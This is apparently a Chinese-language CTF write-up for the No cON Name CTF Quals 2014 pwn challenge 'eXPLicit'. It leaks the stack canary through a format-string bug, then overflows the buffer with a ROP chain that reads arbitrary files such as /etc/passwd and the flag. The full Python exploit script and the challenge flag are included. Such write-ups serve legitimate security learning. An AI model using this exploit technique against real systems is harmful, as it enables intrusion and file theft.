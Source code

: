 ```yaml
---
layout: post
title: No cON Name CTF Quals 2014 - eXPLicit
category: writeup
tags: [pwn]
---
```


> Make me eXPLode! Hint: maybe you want to give a look at the binary... 
> https://ctf.noconname.org/chdownloads/explicit
> Url: 88.87.208.163:7070
> Points: 500

題目是個猜數字遊戲:

```sh
$ nc 88.87.208.163 7070
Welcome to Guess The Number Online!

Pick a number between 0 and 20:
```

<!--more-->

測試後可以發現程式存在 `Format String` 及 `Buffer Overflow` 的漏洞，但有 `Stack Canary`

配合 `Format String` 漏洞，我們可以先 leak 出 canary 的值，在不改變 canary 的同時覆蓋 return address

輸入字串 `%70$08X` ，就可以 leak 出 canary

下面是一個簡單的 ROP Payload，可以讀寫任意檔案，雖然我們不知道 flag 的路徑，
但透過讀取 `/etc/passwd`，還是可以得到 username，再進一步猜到 flag 路徑: `/home/ch5/flag.txt`

```py
#!/usr/bin/env python
import socket
import telnetlib
from struct import pack

addr_data = 0x080D50C0

addr_open = 0x805EEEA
addr_read = 0x805EF40
addr_write = 0x0805EFAA

pop3 = 0x0805C39E
pop2 = 0x080482f7

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('88.87.208.163', 7070))

# recv game message
print s.recv(1024)

# leak canary
s.send("0x%70$08X\n")
r = s.recv(1024)
index = r.index('0x')

canary = int(r[index+2:index+10], 16)
print "canary: ", hex(canary)

# payload
p = 'A' * 256
p += pack("<I", canary) # canary
p += 'A' * 12

# read(4, addr_data, 256)
p += pack("<I", addr_read)
p += pack("<I", pop3)
p += pack("<I", 4)
p += pack("<I", addr_data)
p += pack("<I", 256)

# open(addr_data, 0, 0)
p += pack("<I", addr_open)
p += pack("<I", pop3)
p += pack("<I", addr_data)
p += pack("<I", 0)
p += pack("<I", 0)

# read(5, addr_data, 1000)
p += pack("<I", addr_read)
p += pack("<I", pop3)
p += pack("<I", 5)
p += pack("<I", addr_data)
p += pack("<I", 1000)

# write(4, addr_data, 1000)
p += pack("<I", addr_write)
p += pack("<I", pop3)
p += pack("<I", 4)
p += pack("<I", addr_data)
p += pack("<I", 1000)

p += "\n"

s.send(p)
print s.recv(1024)
print s.recv(1024)

s.send("q\n")
print s.recv(1024)

s.send("/home/ch5/flag.txt")
print s.recv(1024)

print "\nFile Content: "
print s.recv(1024)

print "\n"

# interact
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Flag: `NcN_97740ead1060892a253be8ca33c6364a712b21d`

